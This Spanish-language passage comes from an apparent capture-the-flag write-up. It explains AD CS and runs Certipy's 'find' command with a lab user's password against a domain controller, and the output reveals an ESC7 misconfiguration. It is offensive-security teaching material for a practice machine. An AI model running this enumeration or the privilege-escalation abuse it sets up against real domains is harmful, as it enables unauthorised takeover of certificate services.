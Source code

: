 Primero que nada, ¿Qué es **ADCS**?

| **Servicios de certificados de Active Directory (ADCS)** |
|:-----------:|
| *Servicios de certificados de Active Directory (AD CS) es un rol de Windows Server para emitir y administrar certificados de infraestructura de clave pública (PKI) que se usan en protocolos de autenticación y comunicación seguros. Los certificados digitales se pueden usar para cifrar y firmar digitalmente documentos electrónicos y mensajes, así como para la autenticación de cuentas de equipo, usuario o dispositivo en una red.* |

<br>

Con la herramienta **certipy**, podemos identificar si hay un certificado vulnerable.

De aquí la puede obtener:
* <a href="https://github.com/ly4k/Certipy" target="_blank">Repositorio de ly4k: Certipy</a>

Una vez que ya lo tengas instalado o compilado, lo primero que podemos hacer es probarlo usando las credenciales que tenemos.

Primero usaremos el comando **find** de **certipy**, añadiendo las credenciales y la IP de la máquina (`-dc-ip`), le indicaremos que muestre solo plantillas de certificados vulnerables basadas en pertenencias a grupos anidados (`-vulnerable`) y que muestre el resultado en la terminal al finalizar (`-stdout`):
```bash
certipy find -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -vulnerable -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Trying to get CA configuration for 'manager-DC01-CA' via CSRA
[*] Got CA configuration for 'manager-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : manager-DC01-CA
    DNS Name                            : dc01.manager.htb
    Certificate Subject                 : CN=manager-DC01-CA, DC=manager, DC=htb
    Certificate Serial Number           : 5150CE6EC048749448C7390A52F264BB
    Certificate Validity Start          : 2023-07-27 10:21:05+00:00
    Certificate Validity End            : 2122-07-27 10:31:04+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : MANAGER.HTB\Administrators
      Access Rights
        Enroll                          : MANAGER.HTB\Operator
                                          MANAGER.HTB\Authenticated Users
                                          MANAGER.HTB\Raven
        ManageCertificates              : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        ManageCa                        : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
                                          MANAGER.HTB\Raven
    [!] Vulnerabilities
      ESC7                              : 'MANAGER.HTB\\Raven' has dangerous permissions
Certificate Templates                   : [!] Could not find any certificate templates
```
Nos dio un resultado.
